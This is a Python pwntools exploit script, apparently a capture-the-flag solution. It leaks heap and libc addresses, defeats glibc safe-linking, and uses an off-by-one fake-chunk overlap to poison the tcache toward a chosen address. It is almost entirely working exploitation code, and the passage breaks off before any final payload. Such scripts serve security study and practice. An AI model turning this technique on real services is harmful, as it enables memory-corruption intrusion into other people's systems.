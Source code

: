 ```python
    r.sendafter(b'Data: ',content)

# gdb.attach(r,gdbscript='b *main+1273')
create(0,24)
create(1,24)
free(0)
free(1)
create(0,24)
view(0)
r.recvuntil(b'Data: ')
heap_base = defuscate(unpack(r.recv(6),'all')) + 0x562c4dace000 -0x562c4dace2a0
log.critical(f'heap_base = {hex(heap_base)}')
free(0)
create(0,24)
for i in range(8):
    create(i,0xf8)
for i in range(7,-1,-1):
    free(i)

create(0,32)
view(0)
r.recvuntil(b'Data: ')
libc.address = unpack(r.recv(6),'all') + 0x726908600000 - 0x726908803c10
log.critical(f'libc.address = {hex(libc.address)}')
create(0,0xf8-32)
for i in range(1,8):
    create(i,0xf8)
create(0,24)
create(0,0xd0-8)  
create(0,0x100-0x30)  

######################################### off-by-one #############################################

target = obfuscate(heap_base+0x100,heap_base)
create(8,0x38)  #### a
offset = 0xca0
address = heap_base + offset
write_into(8,pack(0)+pack(0x60)+pack(address)+pack(address))

create(9,0x28) #### b
create(10,0xf8) #### c
create(11,24)  ################## seperate from top_chunk

write_into(9,b'\x00'*(0x28-8)+pack(0x60))

for i in range(7,0,-1):
    free(i)

free(10) 

create(12,0xd8)
create(13,0x28)
free(13)
free(9)

write_into(12,pack(0)*5+pack(0x31)+pack(target)[:7])

create(13,0x28)

# create(14,0x28)
# view(14)

####################################################################################33
```